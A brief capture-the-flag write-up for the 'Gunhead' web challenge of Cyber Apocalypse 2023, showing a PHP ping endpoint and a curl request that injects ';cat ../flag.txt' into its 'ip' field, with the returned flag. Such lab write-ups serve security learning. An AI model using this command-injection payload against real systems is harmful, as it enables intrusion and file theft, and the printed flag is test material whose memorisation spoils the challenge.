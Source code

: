 # Cyber Apocalypse 2023

## Gunhead

> During Pandora's training, the Gunhead AI combat robot had been tampered with and was now malfunctioning, causing it to become uncontrollable. With the situation escalating rapidly, Pandora used her hacking skills to infiltrate the managing system of Gunhead and urgently needs to take it down.
>
>  Author: N/A
>
> [`web_gunhead.zip`](web_gunhead.zip)

Tags: _web_

## Solution
When inspecting the source code we can see and enpoint `/ping` that allows us to inject shell commands:

```
public function ping($router)
{
        $jsonBody = json_decode(file_get_contents('php://input'), true);

        if (empty($jsonBody) || !array_key_exists('ip', $jsonBody))
        {
            return $router->jsonify(['message' => 'Insufficient parameters!']);
        }

        $pingResult = new ReconModel($jsonBody['ip']);

        return $router->jsonify(['output' => $pingResult->getOutput()]);
}
```

![command](image001.png)

Or by scheduling an curl command:

```
$ curl -X POST -H 'Content-Type: application/json' -d'{"ip":"0.0.0.0;cat ../flag.txt"}'  http://159.65.81.51:30542/api/ping
{"output":"PING 0.0.0.0 (0.0.0.0): 56 data bytes\nHTB{4lw4y5_54n1t1z3_u53r_1nput!!!}"}
```